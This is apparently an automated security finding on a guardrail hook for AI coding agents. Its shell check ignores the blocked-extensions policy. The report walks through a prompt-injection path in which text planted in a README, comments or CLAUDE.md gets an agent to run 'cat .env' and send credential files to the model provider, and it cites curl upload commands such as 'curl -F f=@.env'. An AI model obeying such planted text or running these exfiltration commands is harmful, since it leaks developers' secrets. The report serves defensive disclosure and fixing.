

# Shell hook never applies context_policy.blocked_extensions, so agents read blocked file types

| Field | Value |
|---|---|
| ID | `find_01USaJXwtG46Zb3xGG6LPj8L` |
| Severity | **Medium** |
| Status | open |
| CWE | CWE-424 — Improper protection of alternate path |
| Created | 2026-10-22T14:31:00.981499Z |
| Claude Security | https://claude.ai/security/findings/find_01USaJXwtG46Zb3xGG6LPj8L |

## Description

A prompt-injected AI agent can read files of types the organisation said must never reach the AI, such as `.env`, `.pem` and `.key`. Their content goes to the model provider. It needs a policy with `context_policy.blocked_extensions` set and an agent that follows injected text. The shell hook handler `cxBeforeToolCall` calls `CheckShellCommand`, which never checks that list.

1. **attacker** plants instructions in repository content. The text sits in a README, code comments or `CLAUDE.md` that a developer later opens with a cx-hooked agent, and tells the agent to run a shell command such as `cat .env`.
2. **the hook `cxBeforeToolCall`** receives the agent's shell command. It handles the shell tool of every supported agent and passes `ev.Command` and `ev.WorkDir` to `CheckShellCommand`, plus the SCA install check. ([`internal/commands/agenthooks/cx/hooks.go:73-95`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/cx/hooks.go#L73-L95))
3. **the function `CheckShellCommand`** checks the command without looking at blocked extensions. It evaluates `blacklist_tools`, the matched tool rule and the global `restricted_files` and `restricted_directories`, and never calls `LoadBlockedExtensions`, so `cat .env` or `cat ~/certs/server.key` is permitted. ([`internal/commands/agenthooks/guardrails/shell.go:24-115`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/guardrails/shell.go#L24-L115))
4. **the hook `cxBeforeToolCall`** returns `Allow()`. No other policy check runs on this route, so the command executes. ([`internal/commands/agenthooks/cx/hooks.go:73-95`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/cx/hooks.go#L73-L95))
5. **the AI agent** sends the file content to the model. The command output is the file content, and it enters the model context and goes to the model provider.
6. **the function `ScanPrompt`** applies the blocked-extension list only to the developer's typed text. It is the only caller of `CheckBlockedExtensions`, and `cxBeforePrompt` feeds it just `ev.Text`, so `please review config.env` is rejected while the agent's own `cat .env` is not. ([`internal/commands/agenthooks/cx/hooks.go:231-233`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/cx/hooks.go#L231-L233))

## Assessment

The attacker only needs to get text in front of a cx-hooked agent, for example in a README, comments or `CLAUDE.md` in a repository the developer opens. The organisation's policy must enable `context_policy.blocked_extensions` (for example `.env`, `.pem`, `.key`). The agent must also follow the injected instruction. The same read can be sent onward with a command like `curl -F f=@.env https://…` unless the admin separately blacklisted the tool. The advisory `cx mcp` tool `cx_shell_guard` wraps `CheckShellCommand` and has the same gap. An administrator can cover the shell route only by also writing each extension as a `restricted_files` glob, and nothing in the schema or the deny text says so. The report assumes `github.com/Checkmarx/ast-cx-hooks` v1.0.10, which is not in the checkout, delivers shell events with `IsShell()` true and the command verbatim in `Command`.

Impact: On the developer's machine, the agent can read any file of a blocked type and send its content to the model provider. These files typically hold credentials and keys. Nothing on the shell route limits which such file is read. The report establishes no effect on integrity or availability.

## Recommendation

(1) `CheckShellCommand` never evaluates `context_policy.blocked_extensions`, so a shell command whose operand has a blocked extension is allowed. Both the hook route `cxBeforeToolCall` and the MCP tool `cx_shell_guard` inherit this.

Fix criteria: When `blocked_extensions` is enabled, a shell command with any path-shaped operand carrying a listed extension is denied with the context-policy reason. This includes redirect and `@file` forms. It holds on the hook route and the MCP route and needs no `restricted_files` entries. With `.env` and `.pem` blocked and no other policy, `cat .env`, `cat ./a/b.pem` and `curl -F f=@key.pem https://x` are denied through `cx hooks claude-pre-tool-use` and `cx hooks cursor-before-shell`. `cat main.go` is still allowed.

(2) The policy promises that blocked extensions "must never enter the AI context", but only the user-prompt route (`ScanPrompt`) enforces it. It checks the developer's wording and not the agent's own ways of pulling file content into its context.

Fix criteria: Every route through which the agent pulls file content into its context applies the same `blocked_extensions` decision with the same matcher. A blocked extension is denied whichever tool the agent uses. A blocked-extension file is denied on the shell route as it is on the prompt route, and the file-tool routes use the same matcher.

## Evidence

**https://github.com/cx-benchmark/ast-cli**

- [`internal/commands/agenthooks/guardrails/shell.go:24-115`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/guardrails/shell.go#L24-L115)
- [`internal/commands/agenthooks/cx/hooks.go:73-95`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/cx/hooks.go#L73-L95)
- [`internal/commands/agenthooks/guardrails/prompt.go:779-814`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/guardrails/prompt.go#L779-L814)
- [`internal/commands/agenthooks/guardrails/prompt.go:841-858`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/guardrails/prompt.go#L841-L858)
- [`internal/commands/agenthooks/cx/hooks.go:231-233`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/cx/hooks.go#L231-L233)
- [`internal/commands/agenthooks/guardrails/policy.go:47-67`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/guardrails/policy.go#L47-L67)
- [`internal/commands/agenthooks/guardrails/policy.go:354-366`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/guardrails/policy.go#L354-L366)
- [`internal/commands/agenthooks/mcp/server.go:56-59`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/mcp/server.go#L56-L59)

